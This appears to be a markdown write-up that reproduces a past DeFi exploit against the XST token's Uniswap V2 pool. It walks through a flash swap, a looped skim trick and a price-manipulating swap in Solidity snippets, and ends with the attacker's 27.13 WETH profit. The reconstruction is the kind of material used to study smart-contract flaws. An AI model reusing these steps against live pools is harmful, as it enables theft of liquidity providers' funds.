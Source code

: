 # XST

## What's XST?
XST is the platform's native cryptocurrency. Using XST, transaction validators acquire their rights to process transactions. These rights are tokenized as NFTs, movable assets known as StealthNodes, each of which is assigned a slot in a block validation schedule.

## Amount stolen
27.13 WETH


## Vulnerability
Skimming logic

## Analysis


# proof of concept (PoC) 

We check the balance of WETH within the XST pool on Uniswap and initiate a swap for twice that amount. This action triggers a callback, invoking our custom `uniswapV2Call` function.

```solidity
        amount = WETH.balanceOf(address(Pair2));
        Pair1.swap(amount * 2, 0, address(this), " ");
```


In our `uniswapV2Call` we proceed by getting the current reserves of the XST/WETH pair on Uniswap

![XTS Image](../images/XTS/label.drawio.png)



```solidity
uint256 amountSellWETH = WETH.balanceOf(address(this));
(uint256 reserve0, uint256 reserve1,) = Pair2.getReserves(); 
```

![XTS Image](../images/XTS/before.drawio.png)




### Calculate swap

To execute a swap on Uniswap, we adhere to the Uniswap formula, inserting the required parameters for swaps.
With the following parameters:

![XTS Image](../images/XTS/para1.drawio.png)

![XTS Image](../images/XTS/formula.drawio.png)
```solidity
  uint256 amountOutXST = amountSellWETH * 997 * reserve0 / (reserve1 * 1000 + amountSellWETH * 997);
```

Finally, swap the WETH tokens for XST tokens in the liquidity pool of Uniswap XST

```solidity
  WETH.transfer(address(Pair2), amountSellWETH);
  Pair2.swap(amountOutXST, 0, address(this), "");
```


### Skimming

The skim function in Uniswap V2 is used to claim accumulated tokens from a liquidity pool without removing liquidity. 
It's often used to retrieve additional tokens accumulated due to various operations, such as swaps.
   

```solidity
     XST.transfer(address(Pair2), XST.balanceOf(address(this)) / 8);   //(1/8th) of the XST balance held by the contract to the Uniswap pair, adding more liquidity to the pool.
        for (int256 i = 0; i < 15; i++) {
            Pair2.skim(address(Pair2));
        }

     Pair2.skim(address(this));
```


After skimming the tokens we sell the XST tokens to the WETH liquitiy pool, which allows us to manipulate the price within this flash swap.


```solidity
   XST.transfer(address(Pair2), XST.balanceOf(address(this)));
```

![XTS Image](../images/XTS/liq.drawio.png)

Now we repeat the first steps with new values:

### Calculate swap

![XTS Image](../images/XTS/para2.drawio.png)



![XTS Image](../images/XTS/after.drawio.png)


```solidity
   uint256 amountOutWETH = amountSellXST * 997 * reserve1 / (reserve0 * 1000 + amountSellXST * 997);
```


### Swap for profit

```solidity
   Pair2.swap(0, amountOutWETH, address(this), "");
```


### Repay flashloan

```solidity
   WETH.transfer(address(Pair1), (amount * 2) * 1000 / 997 + 1000);
```




### Profit

Since we initiated the flash swap with 78 WETH, and at the and of the flash swap had 105 WETH, we were able to send the profit back to our wallet


![XTS Image](../images/XTS/profit.drawio.png)



```
  Attacker WETH profit before exploit: 0.000000000000000000
  Attacker WETH profit after exploit: 27.130181656842120567
```




**Code provided by:** [DeFiHackLabs](https://github.com/SunWeb3Sec/DeFiHackLabs/blob/main/src/test/88mph_exp.sol)


[**< Back**](https://patronasxdxd.github.io/CTFS/)
